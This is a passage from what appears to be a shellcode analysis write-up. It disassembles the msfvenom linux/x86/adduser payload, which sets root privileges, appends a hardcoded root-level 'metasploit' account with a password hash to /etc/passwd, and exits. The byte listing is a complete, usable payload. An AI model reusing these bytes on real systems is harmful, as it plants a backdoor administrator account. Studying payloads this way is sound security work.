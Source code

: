 Now we have finished analysing the first shellcode created by msfvenom, let's move on to the next one!

## linux/x86/adduser

Next payload generated by `msfvenom` is the `adduser` shellcode. Let's start by examining the first five instructions.

```asm
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E828000000        call dword 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```
